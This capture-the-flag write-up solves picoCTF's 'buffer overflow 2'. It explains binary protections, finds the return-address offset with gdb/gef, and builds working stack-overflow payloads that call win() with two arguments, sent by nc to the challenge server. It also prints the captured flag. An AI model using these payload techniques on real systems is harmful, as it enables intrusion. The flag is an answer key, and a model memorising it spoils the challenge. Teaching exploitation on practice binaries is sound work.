

In this task, after filling the buffer, in addition to the return address + padding (4 bytes, more on this at the end), we need to pass two parameters to the `win()` function, which come immediately after this 4-byte padding.

Write-ups, that were useful:
- [Medium](https://musyokaian.medium.com/buffer-overflow-2-picoctf-2022-590cf7b7961f)
- [CTFtime](https://ctftime.org/writeup/32814)
- [Youtube](https://www.youtube.com/watch?v=lJU5mtVKJ-4)

---



The `checksec` command from the `gef` plugin checks what types of protection the file has against binary exploitation. In the case of our program, we have:
<details>
<summary>📖 <em>Tap for details</em> </summary>
  
- **Canary** : Stack Canaries (or Stack Smashing Protection) is protection against stack buffer overflow. It is a special value placed between the buffer and the return address on the stack. The compiler places a small random value (canary) before local variables.
  Before returning from a function, the program checks whether this canary value has changed.

  If a buffer overflow occurs, the excess data overwrites the canary. When compiler checks the canary, if the change is detected the program terminates abnormally (safe abort) before the compromised return address is used. Therefore, it is sufficient to simply calculate the offset to the return address correctly.
- **NX** (No Execute): This protection allows certain areas of memory (e.g., stack, heap) to be marked as non-executable.

  If the program attempts to execute code located in a memory area marked as non-executable (for example, shellcode that an attacker has written to the stack via an overflow), the operating system generates a segmentation fault (SIGSEGV) and terminates the program.
- **PIE** (Position-Independent Executable): If PIE and ASLR are enabled, the addresses of functions and global variables in the program (such as the address of the `win` function) will be *different each time the program is run*.

  In our case, PIE is disabled, so the address of the function win (which we find using nm or objdump in the binary) will be the same every time the program is run.
- **Fortify** (Fortify Source): This is a set of additions to some standard C library functions (such as `strcpy`, `memcpy`, `snprintf`) that can detect certain types of buffer overflows or string formatting errors during execution.

  For example, `strcpy` is used with a buffer of known size, Fortify can add a check that will cause an error if the length of the source string exceeds the size of the buffer.

  Even if Fortify had been enabled, it would probably not have protected against `gets` in the same way that it would have protected `strcpy` with a known size.
- **RelRO** (Relocation Read-Only): RelRO affects how sections of a binary file related to dynamic linking (GOT - Global Offset Table) are handled. GOT contains the addresses of functions from dynamic libraries (such as printf, exit) that are loaded during execution. An attacker may attempt to overwrite GOT so that the function calls a different address.

  Full RelRO makes GOT read-only.

</details>

So, open the program via gdb with the gef plugin installed, then:
1. We set the breakpoint on `main` (`break main`)
2. run vuln (`run vuln`)  

  

  

We get:  


Now we need to find out the exact number of bytes needed to overflow the buffer and overwrite the return address.  

  

This caused the program to SIGSEGV, so let's try `run vuln` again.  

  

pattern:
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

  

As can be seen in the screenshot, in this output `stopped 0x62616164` means that the program threw SIGSEGV at this address.  

If we take the address `0x62616164`, then swap endianness and from hex, we get `daab`. This is also indicated by the line:  

 `$eip   : 0x62616164 ("daab"?)` – it shows the value of the EIP (Instruction Pointer) register at the moment of the stop (when SIGSEGV occurred). 
 The fact that it contains bytes that, when decoded, *produce text with the pattern* indicates that 200 characters were enough to overwrite EIP, but the exact number of characters needs to be determined.  

One way that came me to mind how to determine the exact number of bytes: 
1. Take the pattern generated by gef, select the line where the program threw SIGSEGV. In our case, it is `0x62616164 ("daab"?)`.
2. insert it into a text document ans select it Ctrl+F
3. simply count the number of characters up to `daab`  

  

  

This method works because the pattern consists of different characters. If it were "`aaaaaa...`", it would not be obvious which character the EIP was overwritten with.  

Let's use another method, using gdb/gef:  
```gdb
pattern offset 0x62616164
```
  

We know for sure that the byte order is Little-endian:  
  

So let's check if the offset is really 112 and another pattern of the same length has been generated. Let's try for 112:  


It stops at `win()`, meaning that the return address is not overwritten. Let's try running the program again and adding "`daab`" to the end of the generated string, thus bringing the length to 116 characters:  

  



The overwrite occurred, meaning that 112 characters is the exact offset for overflowing and overwriting `eip`.  

  

  

At this stage, I try to overwrite the return address with my own. I take two addresses:
- 804930c
- 08049296

The first one, where `gdb` catches SIGSEGV from `vuln`. The second one is the address from `nm`. I format and form the payload with different addresses:  

```
address where gdb catches SIGSEGV from vuln
08 04 93 0c big
0c 93 04 08 little

python -c "print('A'*112 + '\x0c\x93\x04\x08')" | nc saturn.picoctf.net 59941

address from nm:
08 04 92 96 big
96 92 04 08 little

python -c "print('A'*112 + '\x96\x92\x04\x08')" | nc saturn.picoctf.net 59941
```

  

The program does not duplicate the entered string, but it does not display the flag either.  

The `win()` function has *2 checks* that must be satisfied in order to obtain the flag:  

  

First, let's disassemble the win function:

```gdb
disassemble win
```

  

In [write-up](https://ctftime.org/writeup/32814), I read that in order to pass arguments to a function as a byte string, 
there must be a *4-byte padding* between EIP and the actual argument addresses (these are the conditions that must be met).   

Therefore, we have the following payload structure:

```
100bytes (buffer) + 12 bytes + EIP (address of win function) + 4 Bytes (EBP+4 which is return address) + arg1 + arg2
```

`exploit.py`
> [!TIP]
> I left a script as well as other scripts there: [*click*](../content/scripts/binary%20exploitation/buffer%20overflow%202/exploit.py)  

To observe the behavior of the program when running a Python script, you can do the following:  

```gdb
gef> run < <(python3 exploit_1_working.py)
```  

  

The exploit can also be placed in a single line by first converting the parameter addresses to Little Endian with an escape sequence:

```
__________________ADDRESSES OF PARAMETERS________________
1. ca fe f0 0d --> 0d f0 fe ca --> \x0d\xf0\xfe\xca
2. f0 0d f0 0d --> 0d f0 0d f0 --> \x0d\xf0\x0d\xf0
```

```shell
python3 -c "import sys; sys.stdout.buffer.write(b'A'*112 + b'\x96\x92\x04\x08' + b'A'*4 + b'\x0d\xf0\xfe\xca' + b'\x0d\xf0\x0d\xf0' + b'\n')" | nc saturn.picoctf.net 56917
```

  

`picoCTF{argum3nt5_4_d4yZ_27ecbf40}`
